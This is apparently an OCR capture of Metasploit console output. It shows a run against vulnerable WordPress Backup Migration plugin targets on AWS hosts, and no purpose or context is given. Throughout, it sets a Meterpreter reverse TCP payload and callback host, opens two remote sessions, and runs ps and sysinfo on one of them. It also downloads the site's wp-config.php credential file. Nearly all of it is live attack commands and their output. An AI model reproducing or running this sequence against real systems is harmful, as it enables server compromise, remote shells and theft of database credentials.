 ```console
[*] Using configured payload php/meterpreter/reverse_tcp

resource (stdin)> set rhost http://wordpr-Publi-BpPriJDxXb94-436714884.eu-central-1.elb.amazonaws.com
rhost => http://wordpr-Publi-BpPriJDxXb94-436714884.eu-central-1.elb.amazonaws.com

resource (stdin)> set lhost 18.185.154.248
lhost => 18.185.154.248

resource (stdin)> set lport 443
lport => 443

resource (stdin)> run --no-interact
[*] Exploiting target 18.158.31.183
[-] Handler failed to bind to 18.185.154.248:443:-  -
[*] Started reverse TCP handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 3.71.92.221
[+] Deleted Y
[+] Deleted pLqV.php
[*] Meterpreter session 1 opened (10.192.10.69:443 -> 3.71.92.221:40930) at 2024-06-01 18:18:03 +0000
[*] Session 1 created in the background.
[*] Exploiting target 18.194.82.16
[-] Handler failed to bind to 18.185.154.248:443:-  -
[*] Started reverse TCP handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 3.71.92.221
[+] Deleted d
[+] Deleted pLqV.php
[*] Meterpreter session 2 opened (10.192.10.69:443 -> 3.71.92.221:35022) at 2024-06-01 18:19:07 +0000
[*] Session 2 created in the background.

resource (stdin)> sessions --interact 1 --meterpreter-command ps --meterpreter-command sysinfo   --meterpreter-command "download /bitnami/wordpress/wp-config.php"
[*] Running 'ps' on meterpreter session 1 (18.158.31.183)

Process List
============

 PID  Name                                              User  Path
 ---  ----                                              ----  ----
 1    /bin/sh                                           1001  /bin/sh -c /opt/copilot/scripts/startup.sh
 8    /bin/sh                                           1001  /bin/sh /opt/copilot/scripts/startup.sh
 15   /managed-agents/execute-command/amazon-ssm-agent  root  /managed-agents/execute-command/amazon-ssm-agent
 30   /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 60   /managed-agents/execute-command/ssm-agent-worker  root  /managed-agents/execute-command/ssm-agent-worker
 345  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
```